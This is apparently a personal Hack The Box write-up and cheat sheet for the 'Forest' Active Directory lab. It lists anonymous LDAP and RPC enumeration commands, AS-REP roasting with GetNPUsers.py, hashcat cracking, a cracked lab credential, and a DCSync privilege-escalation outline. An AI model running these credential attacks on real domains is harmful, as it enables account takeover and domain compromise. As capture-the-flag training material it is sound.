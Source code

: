 # Forest \[Windows AD Easy]

## Report

Enumerate an AD with SMB, DNS, RPC and other services running. FInd a user svc-alfresco whose creds are exposed via NPUsers. Run Bloodhound to find an attack vector. svc-alfresco has permissions to create a user and add him to any group of their desire barring some (eg. Admin).&#x20;

On adding user 'jj' to 'Windows Exchange Permissions' group we can perform a DCSync attack allowing us to replicate all privs as Admin, all attack vectors provided by Bloodhound.

## Cheat Sheet

<pre><code>smbclient -L &#x3C;ip> (anon login) [-U if have username]

Running a DNS server so check it out
nslookup                    
> server 10.10.10.161
> 127.0.0.1
> 10.10.10.161

ldapsearch -H ldap://10.10.10.161 -x -s base namingcontexts  [-x simple auth, -s scope]
ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" > ldap.anon.out  
ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)'

Windows timestamp to human cus Windows does not follow EPOC, for user and password creation and last pass attempt and all the stuff associated with the above search
ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName  
ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName  sAMAccountType

ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName sAMAccountType | grep sAMAccountName | awk '{print $2}' > userlist.ldap

Creating wordlist watch

crackmapexec smb --pass-pol 10.10.10.161 (finding the pass policy)
&#x3C;Account lockout threshold - 0 so safely brute>

rpcclient -U '' -N 10.10.10.161 (anonymous login, for further enum)
rpcclient $> enumdomusers  [find an extra user, svc-alfresco]
&#x3C;smbenum and enum4linux also find this so do keep in mind>

tab twice to view all commands
queryusergroups 0x47b [use rid, not username]
querygroup &#x3C;rid group>
queryuser 0x47b

Kerb time
./GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/&#x3C;user>'
./GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}
hashcat64 -m 18200 &#x3C;hash> rockyou.txt -d1

crackmapexec smb 10.10.10.161 -u svc-alfresco -p s3rvice --shares


[^1]: you only need this if you're not already running as <> process ion remember but we are so no need